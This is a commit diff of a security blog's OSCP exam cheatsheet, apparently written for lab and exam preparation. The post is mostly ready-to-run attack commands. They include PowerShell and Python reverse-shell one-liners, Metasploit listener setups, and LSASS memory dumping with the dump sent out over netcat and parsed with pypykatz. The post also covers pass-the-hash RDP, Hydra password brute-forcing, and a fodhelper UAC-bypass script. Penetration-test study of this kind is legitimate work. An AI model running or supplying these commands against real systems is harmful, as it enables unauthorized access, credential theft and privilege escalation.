

Before and after one commit to poppysec/poppysec.github.io, a Jekyll site: the page built from _posts/2022-12-15-OSCP-Cheatsheet.md, in a window 1280 px wide and 1400 px high, scrolled down 1358 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
more updates

````diff
--- a/_config.yml
+++ b/_config.yml
@@ -18,7 +18,7 @@ darkavatar: /assets/images/dark_bauhaus_logo.png
 tagline: Security Blog
 
 # A longer description used for the description meta tag. Also used as fallback for pages that don't provide their own description, and also as part of the page's title tag if neither page.title nor site.tagline has been defined.
-description: CTF write-ups, pentesting command cheatsheets, and technical blogs
+description: Security Blog
 
 # The full URL to your site. Note: site.github.url will be used by default.
 url: https://poppysec.github.io/
--- a/_posts/2022-12-15-OSCP-Cheatsheet.md
+++ b/_posts/2022-12-15-OSCP-Cheatsheet.md
@@ -17,11 +17,19 @@ sudo nmap --min-rate 100 -T4 -p- $ip -Pn -oA nmap/all
 # service version on specific ports
 sudo nmap --min-rate 100 -T4 $ip -Pn -p30021,33033,44330,45332,45443 -sC -sV
 ```
+For brevity in the exam we can use [nmapAutomator](https://github.com/21y4d/nmapAutomator).
 
-`nmapAutomator.sh -H $ip -t vulns`
-`nmapAutomator.sh -H $ip -t all`
+```bash
+# vuln scan
+nmapAutomator.sh -H $ip -t vulns
+
+# all scan
+nmapAutomator.sh -H $ip -t all
+```
 
 ## Web
+
+### Directory enumeration
 
 ```bash
 dirsearch -u http://192.168.113.58 -x 403,400,404 -w /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt -R 2 -e php
@@ -46,22 +54,23 @@ smbclient //$IP/ipc$ -U $username
 mount -t cifs //$IP/$shared_folder $mount_folder
 ```
 
-# Reverse shell
+# Reverse shells
 
-PowerShell revshell one liner
+PowerShell one liner
 ```powershell
 powershell.exe -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.119.210',443);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
 ```
 
-Meterpreter listener setup in one line
+Msfconsole listener setup in one line
 ```bash
 # Meterpreter
 msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 443; run; exit -y"
+
 # Java
 msfconsole -q -x "use exploit/multi/handler; set PAYLOAD java/jsp_shell_reverse_tcp; set LHOST tun0; set LPORT 443; run; exit -y"
 ```
 
-Escaping quotes
+Escaped quotes example e.g. when executing through a command line RCE exploit we might need to be careful of quotes.
 ```bash
 "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.118.6\",15672));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"
 ```
@@ -70,36 +79,57 @@ Escaping quotes
 
 ## Windows
 
-**SMB server** on Linux
-`sudo impacket-smbserver data .`
+### SMB
 
-On Windows shell
-`copy \\192.168.119.250\workgroup\test.bat`
-Can upload and download from Windows this way.
-
-**FTP**
-Start FTP server `python3 -m pyftpdlib -w -p 21
+SMB server hosted on Linux using `impacket`.
 
 ```bash
-# Recursively download whole ftp directories
+sudo impacket-smbserver data .
+```
+
+On a Windows shell we can simply copy files to and from the network share.
+
+```powershell
+# cmd
+copy \\192.168.119.250\data\test.bat
+
+# PowerShell
+Copy-Item \\192.168.119.250\data\nc64.exe C:\Users\Public\.
+```
+
+We can easily upload and download from Windows this way.
+
+### FTP
+
+Start FTP server on Kali with python.
+
+```bash
+python3 -m pyftpdlib -w -p 21
+```
+
+On the Windows box we can enter an interactive FTP shell as normal `ftp user@ip` and upload the files needed.
+
+We can use wget to recursively download whole FTP directories:
+
+```bash
 wget -m --no-parent --no-passive ftp://username:password@IP
 ```
 
 ## Linux
-curl/wget
 
-If firewall blocks HTTP connections and we have a low-priv shell, generate SSH keys and use scp.
+If firewall rules blocks HTTP connections and we have a low-privilege shell, we can generate SSH keys with `ssh-keygen`, add them to the Kali authorized keys file, and use `scp` for file transfer. This is not particularly OPSEC-safe but is fine for PWK labs.
 
-Firewall rules preventing file transfer, so generated SSH keys on the target and added to the Kali authorized keys file. Then we can transfer files with scp e.g.
 ```bash
-scp -i /var/lib/postgresql/.ssh/id_rsa kali@192.168.49.171:/home/kali/Documents/oscp/provingGrounds/nibbles/linpeas.sh /tmp/
+scp -i /var/lib/postgresql/.ssh/id_rsa kali@192.168.49.171:/home/kali/tools/linpeas.sh /tmp/
 ```
 
 # Tools
 ## Hydra
 
 HTTP-Post-Form
-`sudo hydra -l dj -P /usr/share/wordlists/rockyou.txt 10.11.1.128 -s 4167 http-post-form "/loginform.asp:uname=^USER^&psw=^PASS^:Internal server error."`
+```bash
+sudo hydra -l dj -P /usr/share/wordlists/rockyou.txt 10.11.1.128 -s 4167 http-post-form "/loginform.asp:uname=^USER^&psw=^PASS^:Internal server error."
+```
 
 
 # Credential Dumping
@@ -128,7 +158,8 @@ MiniDump is a useful technique to have in the back of your mind in case any issu
 
 First we need to find the PID of `lsass.exe`:
 
-```
+```powershell
+tasklist | Select-String lsass
 ```
 
 Then we can execute MiniDump.
@@ -136,25 +167,39 @@ Then we can execute MiniDump.
 C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump [PID] C:\temp\out.dmp full
 ```
 
-Transfer DMP via Netcat.
+Transfer DMP via Netcat (or otherwise). This command won't exit out nicely when the transfer is finished, so we will need to manually check the file size on the disk of the attacking machine until it is complete.
 
 ```powershell
-WIP
+# on victim
+nc.exe -vn 192.168.119.215 4444 < C:\Users\Public\lsass.dmp
+
+# on attacker
+nc -nvlp 4444 > lsass.dmp
 ```
 
-Use pypykatz.
+Use `pypykatz` to extract the NTLM hashes.
 ```bash
-WIP
+pypykatz lsa minidump lsass.dmp
 ```
 
 ## Task Manager
 
 Remember if all else fails and we have RDP access to the target machine, we can dump the process memory of LSASS from Task Manager.
 
-## Pass the hash
+![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220313154727.png)
 
-RDP
-`xfreerdp /u:nicky /d:thinc /pth:b40c7060e1bf68227131564a1bf33d48 /v:10.11.1.223`
+The DMP file by default is output to `%temp%\lsass.DMP`, which will expand to `C:\Users\<user>\AppData\Local\Temp\lsass.DMP`.
+
+# Lateral Movement
+
+### PsExec
+
+
+### RDP
+
+```bash
+xfreerdp /u:bob /d:thinc /pth:b40c7060e1bf6g227131564a7bf33d48 /v:10.11.1.1
+```
 
 # Pivoting
 ## Port forwarding
@@ -233,26 +278,19 @@ Fodhelper and Eventvwr (check SVcorp notes)
 where /r C:\Windows fodhelper.exe
 ```
 
+Exploit `fodhelper.exe` UAC bypass.
 ```powershell
-#This UAC bypass tries to execute your command with elevated privileges using fodhelper.exe
-
-$yourevilcommand = "C:\Windows\System32\cmd.exe"
-
-#Adding all the reistry required with your command.
-
+$c = "C:\Windows\System32\cmd.exe"
 New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
 New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
-Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value $yourevilcommand -Force
-
-#Starts the fodhelper process to execute your command.
+Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value $c -Force
 
 Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
 
-#Cleaning up the mess created.
 Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
 ```
 
-# Buffer overflow
+# Buffer Overflow
 
 ```bash
 msf-pattern_create -l $length
````
Also changed, not shown: about.md (+4 -0 lines), assets/images/favicon.gif (added), assets/resources/Pasted image 20220313154727.png (added).
